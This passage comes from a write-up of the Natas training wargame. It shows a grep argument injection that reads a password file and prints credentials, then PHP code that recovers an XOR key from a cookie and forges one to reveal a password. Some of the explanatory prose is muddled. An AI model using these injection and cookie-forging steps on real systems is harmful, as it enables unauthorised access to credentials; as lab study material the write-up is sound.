 Grep inputs, we do .* /etc/natas_webpass/natas11 # to search all in that specific folder.
```
Input search:
.* /etc/natas_webpass/natas11 #

.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

### Level 11

We have our cookie ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D, which we will remove %3D is the equal in HTML entities. The idea is to original XOR encrypted = key. 
```
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=');
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$data = $defaultdata;

print xor_encrypt(json_encode($data));

?>

then

<?

$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = 'qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$data = $defaultdata;

print base64_encode(xor_encrypt(json_encode($data)));

```